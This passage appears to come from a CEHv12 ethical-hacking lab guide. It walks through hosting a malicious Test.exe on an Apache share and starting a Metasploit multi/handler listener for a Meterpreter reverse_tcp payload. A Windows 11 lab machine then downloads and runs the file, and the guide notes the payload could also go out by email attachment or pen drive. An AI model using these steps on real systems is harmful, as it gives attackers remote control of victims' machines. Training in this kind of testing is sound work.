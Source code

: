 
```
Type mkdir /var/www/html/share and press Enter to create a shared folder
Type chmod -R 755 /var/www/html/share and press Enter
Type chown -R www-data:www-data /var/www/html/share and press Enter
Copy the malicious file to the shared location by typing cp /home/attacker/Desktop/Test.exe /var/www/html/share and
pressing Enter.
Note: Here, we are sending the malicious payload through a shared directory; but in real-time, you can send it via an attachment in
an email or through physical means such as a hard drive or pen drive.
```
9. Now, start the apache service. To do this, type **service apache2 start** and press **Enter**.

### 


10. Type **msfconsole** and press **Enter** to launch the Metasploit framework.
11. In msfconsole, type **use exploit/multi/handler** and press **Enter**.

### 


12. Now, set the payload, LHOST, and LPORT. To do so, use the below commands:

```
Type set payload windows/meterpreter/reverse_tcp and press Enter
Type set LHOST 10.10.1.13 and press Enter
Type set LPORT 444 and press Enter
```
13. After entering the above details, type **exploit** and press **Enter** to start the listener.

### 


14. Click **CEHv12 Windows 11** to switch to the **Windows 11** machine.
15. Open any web browser (here, **Mozilla Firefox** ). In the address bar place your mouse cursor, type **[http://10.10.1.13/share](http://10.10.1.13/share)** and press
    **Enter**. As soon as you press enter, it will display the shared folder contents, as shown in the screenshot.
16. Click **Test.exe** to download the file.

```
Note: 10.10.1.13 is the IP address of the host machine (here, the Parrot Security machine).
```
### 


17. Once you click on the **Test.exe** file, the **Opening Test.exe** pop-up appears; select **Save File**.
18. The malicious file will download to the browser’s default download location (here, **Downloads** ). Now, navigate to this location and

### double-click the Test.exe file to run it. 

